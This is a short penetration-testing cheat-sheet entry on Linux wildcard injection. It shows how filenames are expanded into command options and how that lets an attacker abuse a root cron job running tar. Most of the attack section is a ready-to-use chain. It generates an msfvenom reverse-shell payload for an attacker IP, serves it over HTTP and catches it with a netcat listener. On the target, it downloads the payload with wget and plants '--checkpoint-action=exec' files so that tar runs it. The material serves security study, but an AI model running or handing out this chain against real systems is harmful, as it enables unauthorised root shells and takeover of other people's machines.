

# Wildcard and cronjob

When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as glubbing) on the wildcard. Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names.

```bash
touch ./-l
ls *
```

The command shows the output of ls -l command.&#x20;

<figure><figcaption></figcaption></figure>

## Wildcard abuse for cron

When you see the following cron configuration for tar command, we can abuse the configuration.&#x20;

<figure><figcaption></figcaption></figure>


```bash
kali> msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.142.155 LPORT=53 -f elf -o shell.elf
kali> python -m SimpleHTTPServer 
kali> nc -nlvp 53

# Target
wget http://192.168.142.155:8000/shell.elf
chmod 755 shell.elf 
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf

# Wait until you see the netcat connection back to kali.
```

